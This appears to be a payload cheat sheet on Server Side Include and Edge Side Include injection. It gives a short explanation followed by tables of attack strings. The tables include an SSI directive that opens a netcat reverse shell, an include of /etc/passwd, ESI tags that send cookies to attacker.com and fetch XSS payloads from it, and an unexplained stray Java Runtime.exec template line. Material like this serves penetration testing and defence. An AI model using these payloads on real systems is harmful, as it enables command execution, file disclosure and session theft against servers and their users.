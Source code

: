 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.

## Summary

* [Methodology](#methodology)
* [Edge Side Inclusion](#edge-side-inclusion)
* [References](#references)

## Methodology

SSI Injection occurs when an attacker can input Server Side Include directives into a web application. SSIs are directives that can include files, execute commands, or print environment variables/attributes. If user input is not properly sanitized within an SSI context, this input can be used to manipulate server-side behavior and access sensitive information or execute commands.

SSI format: `<!--#directive param="value" -->`

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Print the date          | `<!--#echo var="DATE_LOCAL" -->`         |
| Print the document name | `<!--#echo var="DOCUMENT_NAME" -->`      |
| Print all the variables | `<!--#printenv -->`                      |
| Setting variables       | `<!--#set var="name" value="Rich" -->`   |
| Include a file          | `<!--#include file="/etc/passwd" -->`    |
| Include a file          | `<!--#include virtual="/index.html" -->` |
| Execute commands        | `<!--#exec cmd="ls" -->`                 |
| Reverse shell           | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |

## Edge Side Inclusion

HTTP surrogates cannot differentiate between genuine ESI tags from the upstream server and malicious ones embedded in the HTTP response. This means that if an attacker manages to inject ESI tags into the HTTP response, the surrogate will process and evaluate them without question, assuming they are legitimate tags originating from the upstream server.

Some surrogates will require ESI handling to be signaled in the Surrogate-Control HTTP header.

```ps1
Surrogate-Control: content="ESI/1.0"
```

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Blind detection         | `<esi:include src=http://attacker.com>`  |
| XSS                     | `<esi:include src=http://attacker.com/XSSPAYLOAD.html>` |
| Cookie stealer          | `<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>` |
| Include a file          | `<esi:include src="supersecret.txt">` |
| Display debug info      | `<esi:debug/>` |
| Add header              | `<!--esi $add_header('Location','http://attacker.com') -->` |
| Inline fragment         | `<esi:inline name="/attack.html" fetchable="yes"><script>prompt('XSS')</script></esi:inline>` |

<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>

| Software | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
| -------- | -------- | ---- | ------- | ------------------------- | -------------- |
| Squid3   | Yes      | Yes  | Yes     | Yes                       | No             |
| Varnish Cache | Yes | No   | No      | Yes                       | Yes            |
| Fastly   | Yes      | No   | No      | No                        | Yes            |
| Akamai ESI Test Server (ETS) | Yes | Yes | Yes | No              | No             |
| NodeJS' esi | Yes   | Yes  | Yes     | No                        | No             |
| NodeJS' nodesi | Yes | No  | No      | No                        | Optional       |

## References

* [Beyond XSS: Edge Side Include Injection - Louis Dion-Marcil - April 3, 2018](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [DEF CON 26 - Edge Side Include Injection Abusing Caching Servers into SSRF - ldionmarcil - October 23, 2018](https://www.youtube.com/watch?v=VUZGZnpSg8I)
* [ESI Injection Part 2: Abusing specific implementations - Philippe Arteau - May 2, 2019](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [Exploiting Server Side Include Injection - n00py - August 15, 2017](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [Server Side Inclusion/Edge Side Inclusion Injection - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection)
* [Server-Side Includes (SSI) Injection - Weilin Zhong, Nsrav - December 4, 2019](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
